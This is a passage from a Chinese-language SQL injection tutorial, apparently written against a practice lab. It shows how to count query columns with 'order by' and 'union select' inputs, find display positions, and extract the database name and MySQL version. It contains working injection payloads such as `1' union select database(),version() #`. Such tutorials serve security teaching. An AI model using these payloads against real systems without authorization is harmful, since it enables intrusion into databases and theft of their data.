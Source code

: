 
### 三、获取数据库信息

#### 1.猜解所查询的字段数目

方式1：**order by num**
 若num数值超过了字段数，则查询会报错，从而判断出select语句所查询字段的数目

> **输入**：
>  `1' order by 2 #`
>  `1' order by 3 #`

**输出**：



![img](https://upload-images.jianshu.io/upload_images/4866277-27fc41a95b42c138.png?imageMogr2/auto-orient/strip|imageView2/2/w/445)

以上，用`1' order by 2 #`进行提交，可正常查询出ID=1的2个字段值；用`1' order by 3 #`进行提交，则会出现异常提示。说明此处的select查询语句中查询的字段有2个

方式2：**union select 1,2,3...**
 若union select后的数字位（不一定是1/2/3，只要有数字占位即可）与实际查询的字段位不完全对应时，查询就会报错，直至调整到不报错时的占位个数，从而判断实际查询的字段数

> **输入**：
>  `1' union select 1 #`
>  `1' union select 1,2 #`
>  `1' union select 1,2,3 #`

**输出**：



![img](https://upload-images.jianshu.io/upload_images/4866277-2d5a2fc1d9aff9fa.png?imageMogr2/auto-orient/strip|imageView2/2/w/561)

以上，只有`1' union select 1,2 #`构造的语句才能正常匹配出字段值，相应的查询字段数=2

#### 2.获取字段显示位

在页面上会显示从select语句中选取的字段，通过以上方式2中的**union select 1,2,3...**可判断出具体显示字段的显示位
 **显示位的作用**：在知道显示位之后，就可以通过显示位来显示我们想知道的数据库信息，如数据库的版本，用户信息等...

> **输入**：`1' union select 1,2 #`

**输出**：



![img](https://upload-images.jianshu.io/upload_images/4866277-3ebaba44a0c6354e.png?imageMogr2/auto-orient/strip|imageView2/2/w/291)

显示位

#### 3.通过显示位获取数据库信息

此处会用到Mysql注入常用的一些函数，可参看此文==>[SQL注入常用的内置函数整理(以MySql为例)](https://www.jianshu.com/p/fcc5d8e69d68)

- 获取当前连接的数据库名称、DBMS的版本(Mysql的版本)
   `1' union select database(),version() #` 



![img](https://upload-images.jianshu.io/upload_images/4866277-f0cf0dac17956f80.png?imageMogr2/auto-orient/strip|imageView2/2/w/318)
